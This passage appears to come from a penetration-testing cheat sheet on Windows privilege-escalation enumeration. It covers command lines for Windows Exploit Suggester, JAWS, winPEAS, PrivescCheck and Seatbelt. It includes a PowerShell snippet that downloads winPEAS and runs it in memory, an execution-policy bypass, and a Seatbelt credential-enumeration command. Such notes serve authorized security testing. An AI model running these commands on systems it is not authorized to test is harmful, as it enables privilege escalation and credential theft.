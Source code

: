 ```
$ python -u windows-exploit-suggester.py -d 2020-09-02-mssb.xls -i systeminfo.txt --ostext 'windows 10 64-bit' --hotfixes hotfixes.txt | tee wes.out
```



### JAWS

* [https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1](https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1)

```
PS > .\jaws-enum.ps1 -OutputFileName jaws-enum.txt
```



### winPEAS

* [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe)

Run from memory:

```
PS > [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
PS > $url = "https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe"
PS > $wp = [System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content));
PS > [winPEAS.Program]::Main("log")
```



### PrivescCheck

* [https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)

```
PS > powershell.exe -exec bypass -c ". .\privesccheck.ps1; Invoke-PrivescCheck -Extended | Tee-Object privesccheck-out.txt"
```



### Seatbelt

* [https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Seatbelt.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Seatbelt.ps1)

```
PS > .\Seatbelt.exe CredEnum
PS > .\Seatbelt.exe ScheduledTasks
PS > Invoke-Seatbelt -Command "-group=all"
```
